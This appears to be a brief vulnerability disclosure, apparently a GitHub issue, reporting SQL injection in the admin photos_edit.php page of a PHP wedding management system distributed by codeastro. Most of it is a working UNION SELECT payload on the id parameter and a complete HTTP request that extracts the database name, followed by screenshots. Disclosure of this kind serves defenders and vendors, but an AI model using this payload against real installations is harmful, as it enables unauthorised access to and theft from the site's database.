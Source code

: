 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\photos_edit.php

Vulnerability location: /Wedding-Management/admin/photos_edit.php?id=, id

[+] Payload: id=-37%20union%20select%201,2,database(),4,5,6,7,8,9,10--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/photos_edit.php?id=-37%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984511-004cca98-4acd-4db5-97fd-aa55a25aae76.png)

![image](https://user-images.githubusercontent.com/54017627/167984531-900b25b5-cdd1-442a-b224-ee4d53b3ef53.png)

